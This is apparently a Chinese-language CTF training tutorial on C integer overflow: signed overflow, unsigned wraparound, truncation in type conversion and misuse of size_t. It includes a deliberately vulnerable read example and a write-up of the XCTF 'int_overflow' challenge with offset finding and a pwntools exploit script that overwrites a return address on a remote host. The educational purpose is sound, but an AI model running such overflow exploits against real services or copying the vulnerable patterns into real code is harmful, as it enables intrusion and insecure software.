

# 整数溢出
### 整数表示

计算机的整数表示分为无符号数和有符号数。

- 无符号数：只能表示零和正数。

  

- 有符号数：可以表示零、正数和负数。
  - 二进制**补码**以一种适合于二进制加法器的方式来表示负数。
  - 计算补码：二进制形式取反加1得到补码。
  
  

- 表示范围


### 整数安全问题

如果一个整数用来计算一些敏感数值，如缓冲区大小或数值索引，就会产生潜在的危险。

通常情况下，整数溢出并没有改写额外的内存，不会直接导致任意代码执行，但是它会**导致栈溢出和堆溢出**，而后两者都会导致任意代码执行。

由于整数溢出出现之后，很难被立即察觉，比较难用一个有效的方法去判断是否出现或者可能出现整数溢出。

## 整数溢出原理

### 1. 有符号数溢出

- 只有有符号数才会发生溢出。有符号数最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出
- 溢出标志 `OF` 可检测有符号数的溢出

- 上溢出

```c
int i;
i = INT_MAX;  // 2 147 483 647
i++;
printf("i = %d\n", i);  // i = -2 147 483 648
```

- 下溢出

```c
i = INT_MIN;  // -2 147 483 648
i--;
printf("i = %d\n", i);  // i = 2 147 483 647
```

### 2. 无符号数回绕

涉及无符号数的计算永远不会溢出，因为不能用结果为无符号整数表示的结果值被该类型可以表示的最大值加 1 之和取模减（reduced modulo）。因为回绕，一个无符号整数表达式永远无法求出小于零的值。

```c
unsigned int ui;
ui = UINT_MAX;  // 在 x86-32 上为 4 294 967 295
ui++;
printf("ui = %u\n", ui);  // ui = 0
ui = 0;
ui--;
printf("ui = %u\n", ui);  // 在 x86-32 上，ui = 4 294 967 295
```

---

## 整数溢出的几种场景

### 不恰当的类型转换

- 整型提升和宽度溢出

整型提升是指当计算表达式中包含了不同宽度的操作数时，较小宽度的操作数会被提升到和较大操作数一样的宽度，然后再进行计算。

#### 例 1 不恰当的变量类型

```c
#include<stdio.h>
void main() {
    int l;  
    short s;
    char c;

    l = 0xabcddcba;
    s = l;
    c = l;

    printf("宽度溢出\n");
    printf("l = 0x%x (%d bits)\n", l, sizeof(l) * 8);
    printf("s = 0x%x (%d bits)\n", s, sizeof(s) * 8);
    printf("c = 0x%x (%d bits)\n", c, sizeof(c) * 8);

    printf("整型提升\n");
    printf("s + c = 0x%x (%d bits)\n", s+c, sizeof(s+c) * 8);
}
```

- 编译

  ```
  gcc test1.c -o test1.out 
  ```

- 输出

  ```bash
  $ ./test1.out 
  宽度溢出
  l = 0xabcddcba (32 bits)
  s = 0xffffdcba (16 bits)
  c = 0xffffffba (8 bits)
  整型提升
  s + c = 0xffffdc74 (32 bits)
  ```

从输出结果中可以看出，在整数转换的过程中，导致变量值发生了变化。

#### 例 2 不恰当的参数类型

范围大的变量赋值给范围小的变量 

```c
#include<stdio.h>
void check(int n)
{
    if (n == 0)
        printf("vuln");
    else
        printf("OK");
}

int main(void)
{
    long int a;

    scanf("%ld", &a);
    if (a == 0)
        printf("Bad");
    else
        check(a);
    return 0;
}
```

- 编译

  ```
  gcc test2.c -o test2.out 
  ```

- 输出

  ```bash
  $ ./test3.out 
  4294967296 (0x100000000)
  vuln
  ```

上述代码就是一个范围大的变量 (长整型 a)，传入 check 函数后变为范围小的变量 (整型变量 n)，造成整数溢出。

长整型的占有 8 byte 的内存空间，而整型只有 4 byte 的内存空间，所以当变量类型从长整型变为整型时前4 byte 造成截断，只把长整型的低 4byte 的值传给整型变量。

 `0x100000000 -> 0x00000000`。

当范围更小的变量就能完全的把值传递给范围更大的变量，而不会造成数据丢失。

### 使用漏洞多发函数

下面的两个函数都有一个 `size_t` 类型的参数，常常被误用而产生整数溢出，接着就可能导致缓冲区溢出漏洞。

```c
#include <string.h>
void *memcpy(void *dest, const void *src, size_t n);
```

```c
#include <string.h>
char *strncpy(char *dest, const char *src, size_t n);
```

两个函数中都有一个类型为 `size_t` 的参数，它是无符号整型的 `sizeof` 运算符的结果。

```c
typedef unsigned int size_t;
```

#### 例 3 使用 read 函数

这种情况只针对有符号类型

```c
int main(void)
{
    int len, l;
    char buf[11];

    scanf("%d", &len);
    if (len < 10) {
        l = read(0, buf, len);
        *(buf+l) = 0;
        puts(buf);
    } else
        printf("Please len < 10");        
}
```

从表面上看，我们对变量 len 进行了限制，但是仔细思考可以发现，len 是有符号整型，所以 len 的长度可以为负数，但是在 read 函数中，第三个参数的类型是 `size_t`，该类型相当于 `unsigned long int`，属于无符号长整型。

- 编译

  ```
  gcc -g -fno-stack-protector -o test3.out test3.c 
  gcc -o test4.out test4.c 
  ```
  
- 输出

  ```bash
  cuc@cuc-VirtualBox:~/workspace/ctf/20201204$ ./test3.out 
  -1
  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
  aaa�
  Segmentation fault (core dumped)
  ```

### 实例

- [攻防世界-PWN-新手练习区-int_overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1)

	

  对于输入的密码，使用strlen函数计算密码长度，返回的数据类型是size_t，接受长度的变量v3是无符号int8类型，所以输入数据只要超过256的长度，就会出现无符号数回绕，并且能够绕过对输入长度的限制（处于 (3,8] 区间），实际上却拷贝了比预期输入更长的输入成功执行 strcpy 函数。

- payload 构造
  - 判断条件对输入数据长度的要求是处于区间 [3,8)
 	  - 使用 k*255 + 5 长度的输入	
  - 我们需要输入足够长的数据覆盖栈空间

- payload 验证

  

- 定位偏移

  ```bash
  # 长度 255 + 5 = 300
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6
  ```

  ```
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x41386141 in ?? ()
  ```

  偏移为24


- 找到内部有个函数能直接打印 flag 的函数，地址 0x0804868B

  

- exp

  > ```
  > pip3 install pwntools -i https://www.piwheels.org/simple/
  > ```

  ```python
  ##!/usr/bin/env python
  from pwn import*
  
  #r=process('./51ed19eacdea43e3bd67217d08eb8a0e')
  r=remote("220.249.52.133",41723)
  
  system_adr = 0x0804868B
  payload = flat([24*'A',p32(system_adr),(260-24-4)*'A'])
  r.recvuntil("choice:")
  r.sendline('1')
  r.recvuntil("username:")
  r.sendline("atfwus")
  r.recvuntil("passwd:")
  r.sendline(payload)
  r.interactive()
  ```

- exp 运行效果

  

## 本周训练题

- [攻防世界-PWN-新手练习区-int_overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1)

- [buuoj-Pwn-arr_sun_2016](https://buuoj.cn/challenges#arr_sun_2016)

## 参考

- [firmianay.gitbooks 3.1.2 整数溢出]()
- [Basic Integer Overflows](http://phrack.org/issues/60/10.html)
- [arr_sun_2016(从下标上溢跑到下标下溢)](https://blog.csdn.net/seaaseesa/article/details/106693608)